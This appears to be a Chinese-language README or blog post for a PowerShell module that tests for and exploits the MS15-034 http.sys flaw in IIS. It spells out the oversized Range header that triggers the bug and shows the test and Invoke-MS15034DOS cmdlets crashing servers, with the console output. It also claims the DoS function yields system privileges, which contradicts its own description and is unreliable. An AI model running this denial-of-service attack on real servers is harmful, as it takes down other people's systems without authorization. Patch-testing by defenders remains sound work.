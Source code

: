 # MS15034
PowerShell module for the exploitation and testing 

http://www.hx99.net/Article/Tech/201504/36652.html


星期四一早我的推特就被微软最新的ms15-034漏洞公告刷屏了.

ms15-034漏洞出在http.sys文件中.这个文件是iis的一个重要组件,功能和特性对windows来说意义重大.微软公告说这个漏洞是一个可以执行远程代码的漏洞,但是截至目前为止已发布的poc仅仅只能dos掉系统,虽然有人声称出售可以用于远程攻击的poc但是真实性值得怀疑.

过去这几出现了各种各样的poc,甚至用于攻击ms15-034的metasploit模块也出现了.如果你用类unix操作系统或者电脑里安装了诸如perlpython的脚本语言,你都可以获得相应版本的poc代码.只是,我觉得这些代码对windows管理员来说还是不够友好,我倾向于写一个powershell版本的poc.

chris campbell写的ps代码可以检测系统是否是易受攻击的,但是某些情况下这个ps代码的执行不够理想.

chris的代码有三个问题,1是他没有考虑到http 404错误的情况,第二个是不会收集http 400错误,第三个是代码有前后不匹配的问题.

我觉得仅仅用powershell来验证一个系统是否受攻击是不够的,最好是能更进一步拿下系统权限.

开始之前我们首先要明确一个问题,请不要使用.net的Webrequest类来生成http header的值,而应该用更底层的TCPClient类来实现.

我写的这个漏洞利用程序受到了Metasploit ms15034漏洞模块的影响.你可以在github上面找到这段代码 https://github.com/poshsecurity/MS15034. 其中最重要的两个函数是test-ms15-34和invoke-ms15034dos 前者是测试用的,后者执行对指定系统的dos攻击.

测试:

你需要给漏洞利用程序指定如下三个参数:

1. windows2008

2. windows2012

3. -serverPath

前两个参数代表被攻击的机器,它们会访问http://computer/welcom.png 和 http://computer/iis-85.png. 第三个参数是可选的,你可以用下面的方式使用这个参数:

1. /index.html

2. /companylogo.png

3. images/logo.jpg

让我们来看看具体的例子:

1.测试一台装了windows2008的服务器是否有漏洞。
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -Windows2008
This server is vulnerable to MS 15-034
PS C:\tools>

2. 测试一台装了windows2012的服务器是否有漏洞.
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.2 -Windows2012
This server is vulnerable to MS 15-034
PS C:\tools>

3. 测试显示服务器不存在漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.4 -Windows2012
This server is not vulnerable to MS 15-034
PS C:\tools>

4.使用自定义路径来测试服务器是否有漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -ServerPath "/welcome.png"
This server is vulnerable to MS 15-034
PS C:\tools>

5. 故意使用错误的系统版本来测试服务器是否有漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -Windows2012
Test-MS15034 : The provided path has not been found, check you have selected the right operating system, or specified
a valid file in -ServerPath
At line:1 char:1
+ Test-MS15034 -Computer 192.168.1.3 -Windows2012
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Test-MS15034
PS C:\tools>

6. 用自定义路径来检测一台服务器是否有漏洞（路径不存在）
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -ServerPath "/thisdoesnotexist.png"
Test-MS15034 : The provided path has not been found, check you have selected the right operating system, or specified
a valid file in -ServerPath
At line:1 char:1
+ Test-MS15034 -Computer 192.168.1.3 -ServerPath "/thisdoesnotexist.png"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Test-MS15034
PS C:\tools>

CMDLet用指定参数来连接URL,并且连接的时候指定http header的范围是 bytes=0-18446744073709551615.如果服务器响应式http 416那么就说明此服务器是受此漏洞影响的.

接下来我们来干一点邪恶的事情,通过这个漏洞直接拿到系统的权限. invoke-ms15034dos这个函数会帮我们实现这个目的.这个函数需要的参数和上面差不多.它们两者的区别在于后者用先测试被攻击的服务器是否是有漏洞的.有漏洞它才会执行攻击.否则它仅仅是执行dos攻击.dos攻击的 http header 需要被指定为: Range: bytes=0-18446744073709551615.

1. 对windwos2012r2服务器执行拒绝服务攻击
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.2 -Windows2012
The server is vulnerable, performing Denial Of Service
Looks like the DOS was successful
PS C:\tools>

2. 对windwos2008r2服务器执行拒绝服务攻击
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.3 -Windows2008
The server is vulnerable, performing Denial Of Service
Looks like the DOS was successful
PS C:\tools>

3. 下面的测试是来看看 如果你攻击一台打了补丁的服务器会出现的反应.
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.4 -Windows2012
Test-MS15034 reported the server not as vulnerable, so not performing Denial Of Service
PS C:\tools>

最后需要提醒的是,我的攻击代码只支持http,对https未做考虑.
